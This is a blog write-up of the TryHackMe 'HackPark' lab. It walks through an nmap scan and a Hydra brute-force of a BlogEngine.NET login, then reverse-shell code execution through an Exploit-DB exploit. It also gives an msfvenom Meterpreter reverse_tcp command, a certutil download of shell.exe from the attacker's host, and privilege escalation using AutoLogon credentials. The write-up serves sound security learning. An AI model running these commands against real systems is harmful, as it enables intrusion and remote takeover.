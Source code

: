 ```yaml
---
layout: blog.html
title: "TryHackMe - HackPark Writeup"
date: 2021-11-02
thumbnail: "https://jacen-safe.s3.us-west-004.backblazeb2.com/n1yPsnqz5pPo.png"
---
```


[HackPark](https://tryhackme.com/room/hackpark) is a Medium difficulty room, although it guides you along fairly well for the initial foothold, and it's pretty easy to root if you do proper basic enumeration.
<!-- more -->

## Initial Enumeration
The first step in any pentest situation is enumeration. It's important to get as much information about the machine and its users as possible. To start off, we'll use Nmap to perform a port scan and see what services are active and listening on the box. Nmap is a versitle tool, and many people have their own preferred methods to balance speed and accuracy, but here are the options I'll use.

- `-sC`: Run default scripts. Nmap can do additional enumeration beyond just checking for open ports, and this option will run some quick and useful extra scans to give us even more information about what we're working with.
- `-sV`: Run version detection. Knowing what specific version of a service is in use can help with finding potential vulnerabilities, or ruling them out.
- `-v`: Be verbose. This outputs extra information to the console as the scan runs, the most useful of which are status updates and showing open ports as it finds them.
- `-oN`: Output to a file in the Nmap format. Having a file to refer back to intead of having to scroll through console output is very useful. Nmap can save to a variety of file formats, and you may have reasons to use them, but for me just the normal plain-text format is enough.
- `-Pn`: Don't use `ping` for host detection. This machine doesn't respond to ping, so to get Nmap to scan it at all, we need to use this option.

Using these options, we're left with the following command:
```bash
nmap -sC -sV -vv -Pn -oN nmap-initial.txt 10.10.97.88
```

This machine is surprising quiet considering it's a Windows machine. We get two open ports: 80 and 3389. Nmap detects port 80 running Microsoft IIS and 3389 hosting Remote Desktop.

Investigating the web server on port 80, we find a simple blog with a single post. A little bit of poking around reveals that the site is powered by ASPX, which is pretty common for an IIS server. The site seems to be powered by [BlogEngine.NET](https://blogengine.io/).

## Brute Force
There's a login form accessible from the site's main menu, so we'll try a brute force attack against that to see if the password happens to be vulnerable. Usernames are revealed by BlogEngine through a feature that lets you see all posts by a specific user. The username appears to be "Admin", which would have been an easily guessable username anyway.

We'll use [Hydra](https://github.com/vanhauser-thc/thc-hydra) for our brute force attack. There's a lot of junk we need to tack onto the requests we send to the form, but the main points to note are that `ctl00%24MainContent%24LoginUser%24UserName` is the username field and `ctl00%24MainContent%24LoginUser%24Password` is the password field. We know the password was wrong if we get a "Login failed" message, so we'll tell Hydra to look for that string.

```bash
hydra -l Admin -P /usr/share/wordlists/rockyou.txt 10.10.97.88 http-post-form '/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=E2OPdwooQYKBe3hHmFyHa%2Bf42FNOA%2B0i3IfPFd2E6QX4ZFLFHeNhaurK%2BkcrI5TnLLXMiFxKO8IoF2PNUe4yxUE00Ypa1Fw9vUIoNSabbCRy2tPdaEfUccXF3nsmyHtUxFdrxb6w%2FLJ5tv5p5Uo5e4FqjE6fJOA3%2FYKOPDlZ9V38FMGP&__EVENTVALIDATION=x4B7wKhqtjq9qtvOm0hyFmAk48Vm4da4a79DWyJ1XRt6%2BGfR%2BQEE2Pfw9lQ7O0mrmbTenxGMb8si9MEfKGEXDxVPHW99J1XBzWlK7G5Hl11sx5J9sWQwIwtNAFx8skqv9lVGaynV%2BGp5CV81h3etCvc60o8Yu0m5nCeTk2o5BNZTNaEx&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed'
```

Hydra sucessfully finds the password for us, giving us access to the site's admin panel.

## Remote Code Execution
The "About" section gives us a version number of 3.3.6.0. Conveniently, there happens to be [a useful vulnerability with an exploit available on Exploit-DB](https://www.exploit-db.com/exploits/46353). The author was kind enough to give fairly detailed instructions within the script.

Following the instructions in the exploit, we'll set our attacking machine's IP in the script and use BlogEngine's post editor to upload it as `PostView.ascx`. Then we'll leverage a path traversal vulnerability to get BlogEngine to execute our code and give us a reverse shell. We land as a lowly IIS worker user.

This particular Windows reverse shell really sucks and is supposedly unstable, so upgrading to something a bit more attacker-friendly would be nice. We'll throw together an MSFVenom payload to give us a nice Meterpreter shell.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.13.14.52 LPORT=9001 -f exe > shell.exe
```

Unfortunately, getting PowerShell to work through this garbage shell is more work than I care to put in, so we'll try out the Certutil method for downloading our file to the target machine ([Thanks, HackTricks](https://book.hacktricks.xyz/windows/basic-cmd-for-pentesters#download)).

```
certutil.exe -urlcache -split -f "http://10.13.14.52:8000/shell.exe" shell.exe
```

## Privilege Escalation
To give us a good starting point, we'll try running WinPEAS on the machine and see what it can find for us. A handful of interesting results come back.

```
    Some AutoLogon credentials were found
    DefaultUserName               :  administrator
    DefaultPassword               :  *************
```

```
    AWSLiteAgent(Amazon Inc. - AWS Lite Guest Agent)[C:\Program Files\Amazon\XenTools\LiteAgent.exe] - Auto - Running - No quotes and Space detected
    AWS Lite Guest Agent
   =================================================================================================
```

```
    WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running
    File Permissions: Everyone [WriteData/CreateFiles]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])
    System Scheduler Service Wrapper
   =================================================================================================
```

The unquoted service path lands in a folder we probably don't have access to, so it's unlikely that we'll be able to take advantage of that. The DLL hijack is promising, but will also take a bit of legwork to set up. The AutoLogon credentials are the most baindead easy possibility of getting access, so we'll try those first. 

![Order 66](https://i.snap.as/3mipsa0t.png)

Surprisingly, it just works, and we end up with an admin RDP session. From there we're able to grab both of the flags without issue.

The intended method is using write access to the SystemScheduler folder to overwrite an executable and get a second reverse shell (technically an EXE hijack as opposed to a DLL hijack), but the RDP method is just so much more painless.